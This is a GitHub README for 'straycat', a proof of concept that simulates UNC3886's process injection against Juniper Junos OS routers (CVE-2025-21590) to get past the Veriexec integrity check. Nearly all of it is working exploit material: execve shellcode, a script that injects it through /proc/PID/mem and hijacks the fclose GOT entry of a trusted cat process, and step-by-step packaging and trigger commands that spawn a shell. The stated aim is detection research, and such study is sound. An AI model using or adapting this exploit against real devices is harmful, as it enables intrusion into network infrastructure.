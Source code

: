 # straycat

UNC3886 simulation - CVE-2025-21590. Using vJunos-router-23.2R1.15.

## Description

This is a simulation of the China-Nexus Espionage Actor UNC3886 process injection technique used against Juniper Networks Junos OS routers. Treat it as a proof of concept (PoC) for research only.

Junos OS by Juniper Networks is a proprietary operating system that's powering most Juniper routing, switching, and security devices.

Junos OS has Veriexec (a modified version of NetBSD Veriexec Subsystem). It is a kernel-based file integrity subsystem that protects the OS against unknown binaries, libraries, and scripts.

To bypass Veriexec, the execution of untrusted code must be done in a trusted process context. In this case, a hanged cat binary. By the way, the technique seems to be patched on the last version of Junos OS.

## The minimal PoC

There are a few differences between the original exploit and this one. I didn't use the TINYSHELL backdoor so no C2 involved. Instead I used a simple shellcode to spawn a shell to play with the process injection technique against Junos OS routers in an attempt to find a way to log such activity.

### Why only the process injection?

I feel that attempting to detect tinyshell and command and control behaviour could be easily swapped with something else instead. So I feel the initial exploitation vectors are more promising for stronger detection but unfortunately harder to to detect.

### FreeBSD shellcode

```asm
.section .text
.globl _start
_start:
    xorq %rax, %rax
    pushq %rax
    movabs $0x68732f6e69622f2f, %rax
    pushq %rax
    movq %rsp, %rdi
    xorq %rax, %rax
    pushq %rax
    pushq %rdi
    movq %rsp, %rsi
    xorq %rdx, %rdx
    movb $59, %al
    syscall
```

#### Using a FreeBSD VM to compile the shellcode

Probably could've just used pwntools tho.

```Vagrantfile
Vagrant.configure("2") do |config|
  config.vm.box = "generic/freebsd12"
  config.vm.box_version = "4.3.12"
end
```

```bash
as execve.s -o execve.o
ld execve.o -o execve
objdump -d execve | awk '/^ / {for(i=2; i<=NF; i++) if ($i ~ /^[0-9a-f]{2}$/) printf "%s", $i}' | xxd -r -p > loader.bin

# 00000000  48 31 c0 50 48 b8 2f 2f  62 69 6e 2f 73 68 50 48  |H1.PH.//bin/shPH|
# 00000010  89 e7 48 31 c0 50 57 48  89 e6 48 31 d2 b0 3b 0f  |..H1.PWH..H1..;.|
# 00000020  05                                                |.|
# 00000021

# copying over as hex because I'm lazy to set up a shared folder
hexdump -v -e '16/1 "%02x " "\n"' loader.bin > loader.hex
```

### Packaging

Before writing this up, I tested against Ubuntu on aarch64 and x86_64 on VMs on my local machines. I had to extract the cat binary from the Junos OS to check some addresses.

```sh
#!/bin/sh

# straycat-freebsd.sh

PID=$1

BASE_ADDR=$(grep "/bin/cat" /proc/$PID/map | grep "r-x" | head -1 | awk '{print $1}' | cut -d'-' -f1 | sed 's/^0x//')

BASE_DEC=$(printf "%d" "0x$BASE_ADDR")

ENTRY_OFFSET=0x18e0 # .text section offset
GOT_OFFSET=0x20d078 # fclose@GOT offset

ENTRY_OFFSET_DEC=$(printf "%d" "$ENTRY_OFFSET")
GOT_OFFSET_DEC=$(printf "%d" "$GOT_OFFSET")

ENTRY_ADDR=$((BASE_DEC + ENTRY_OFFSET_DEC))
GOT_ADDR=$((BASE_DEC + GOT_OFFSET_DEC))

echo "[+] Base: 0x$(printf "%x" $BASE_DEC)"
echo "[+] Shellcode @ 0x$(printf "%x" $ENTRY_ADDR)"
echo "[+] Hijacking GOT @ 0x$(printf "%x" $GOT_ADDR)"

dd if=loader.bin of=/proc/$PID/mem bs=1 seek=$ENTRY_ADDR conv=notrunc 2>/dev/null

dd if=pc.bin of=/proc/$PID/mem bs=1 seek=$GOT_ADDR conv=notrunc 2>/dev/null
```

#### loader.bin and pc.bin

```sh
printf '\x50\x24\x20\x00\x00\x00\x00\x00' >pc.bin
cat loader.hex | xxd -r -p > loader.bin
```

#### pwn.tar.gz.b64

```sh
tar cvf pwn.tar.gz pc.bin loader.bin straycat-freebsd.sh
base64 pwn.tar.gz > pwn.tar.gz.b64
# copy pwn.tar.gz.b64 to the Junos OS VM
```

## Start two terminal windows of Junos OS virtual machine

```bash
ssh root@<ip>
mkfifo /tmp/null
cat /tmp/null
```

```bash
ssh root@<ip>
# copy pwn.tar.gz.b64 to the Junos OS VM
base64 -d pwn.tar.gz.b64 > pwn.tar.gz
tar xvf pwn.tar.gz
chmod +x straycat-freebsd.sh
ps aux | grep 'cat' | grep 'null' | awk '{print $2}'
# <PID>
sh ./straycat-freebsd.sh <PID>
# [+] Base: 0x202000
# [+] Shellcode @ 0x2038e0
# [+] Hijacking GOT @ 0x40f078
# trigger the shellcode
echo >/tmp/null
# shell should spawn on the other terminal
```

## References

- [Ghost in the Router: China-Nexus Espionage Actor UNC3886 Targets Juniper Routers | Google Cloud Blog](https://cloud.google.com/blog/topics/threat-intelligence/china-nexus-espionage-targets-juniper-routers)
